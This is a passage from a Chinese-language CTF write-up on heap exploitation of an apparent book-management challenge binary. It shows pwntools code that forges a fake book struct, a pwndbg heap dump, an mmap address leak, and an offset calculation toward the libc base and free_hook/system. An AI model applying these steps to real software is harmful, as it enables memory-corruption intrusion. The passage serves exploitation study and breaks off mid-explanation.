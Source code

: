 可以看到，内容全为空，接下来进行伪造，

```
log.info("Prepare to construct a fake book...")
payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)
#book2_addr=0x555555757790
edit(1, payload)
#gdb.attach(p)
```

其中的`'a' * 0x70`起填充作用，将地址填充到目标位置，可以多次调试来找出。

```
pwndbg> x/40gx 0x0000555555758280
0x555555758280:	0x0000000000000000	0x00000000000000d1
0x555555758290:	0x6161616161616161	0x6161616161616161#填充的起始
0x5555557582a0:	0x6161616161616161	0x6161616161616161
0x5555557582b0:	0x6161616161616161	0x6161616161616161
0x5555557582c0:	0x6161616161616161	0x6161616161616161
0x5555557582d0:	0x6161616161616161	0x6161616161616161
0x5555557582e0:	0x6161616161616161	0x6161616161616161
0x5555557582f0:	0x6161616161616161	0x6161616161616161
0x555555758300:	0x0000000000000001	0x0000555555758398 #fake_struct
0x555555758310:	0x0000555555758398	0x000000000000ffff #fake_struct
0x555555758320:	0x0000000000000000	0x0000000000000000
0x555555758330:	0x0000000000000000	0x0000000000000000
0x555555758340:	0x0000000000000000	0x0000000000000000
0x555555758350:	0x0000000000000000	0x0000000000000031
0x555555758360:	0x0000000000000001	0x0000555555758270 <= #book1
0x555555758370:	0x0000555555758290	0x00000000000000c8 <= #book1
0x555555758380:	0x0000000000000000	0x0000000000000031 <= #book1
0x555555758390:	0x0000000000000002	0x00007ffff7fbe010 <= #book2
0x5555557583a0:	0x00007ffff7f9c010	0x0000000000021000 <= #book2
0x5555557583b0:	0x0000000000000000	0x000000000001fc51 <= #book2
```

#### 5.计算libc基地址，freehook、system、/bin/sh地址

得到了book2_name2的地址就可以计算libc的基地址了，**上面book2_name的内容在mmap扩展的内存空间里。**

payload：

```python
p.sendline("4")
p.recvuntil("Name: ")
mmap_addr = u64(p.recv(6) + '\x00\x00')
```

通过调试得到libc和mmap分配的堆块之间的偏移是固定的，接下来可以使用book2_name_addr或者book2_desc_addr任意一个计算偏移，下面使用book2_name_addr计算偏移：

```
book2_name - libc_addr = 0x00007ffff7fbe010 -  0x7ffff79e2000 = 0x5dc010
```

或者直接这样：
